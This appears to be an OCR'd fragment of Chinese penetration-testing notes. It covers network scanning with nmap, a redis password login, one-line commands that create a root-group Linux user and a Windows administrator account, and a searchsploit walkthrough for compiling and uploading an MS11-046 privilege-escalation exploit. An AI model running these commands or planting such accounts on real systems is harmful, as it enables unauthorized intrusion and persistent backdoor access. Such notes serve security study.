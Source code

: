 namp 扫B端

namp -T4 10.1.1-255.1-255

python一句话执行python

python -c \'print(\"123456\")\'

![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image35.png){width="2.763888888888889in"
height="0.6675054680664917in"}

redis指定密码登录：

redis-cli -h 127.0.0.1 -a 123456

linux生成root权限的shan用户

adduser shan \| echo shan \| passwd \--stdin shan\| usermod -g root shan

直接生成管理员用户windows

n**et user shan 123456 /add && net localgroup administrators shan /add**

Start shell:recyclebinfolder 打开回收站

回收站在C盘的路径C盘/Recycled文件夹。

nmap 脚本批量扫描

nmap -script=vuln -T5 IP

![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image36.png){width="5.760416666666667in"
height="2.869810804899388in"}

searchsploit

![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image37.png){width="5.760416666666667in"
height="3.4728871391076117in"}

searchsploit -m 直接拷贝到当前目录

![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image38.png){width="5.760416666666667in"
height="2.1528827646544184in"}

ms11-064提权

在检索出来的漏洞列表中，第一行的MS11-046漏洞的exp提权脚本程序，比较符合我们利用Windows现有的漏洞进行提权的预期，在后面的步骤里我们将利用该PoC代码程序进行提权。

 

第六步，使用命令searchsploit -m
exploit/windows_x86/local/40564.c把一个exp拷贝到当前工作目录

 

使用命令i686-w64-mingw32-gcc 40564.c -o exp.exe
-lws2_32对PoC代码程序进行编译使其在Windows环境下可以运行

上传并使用

三、PS 命令
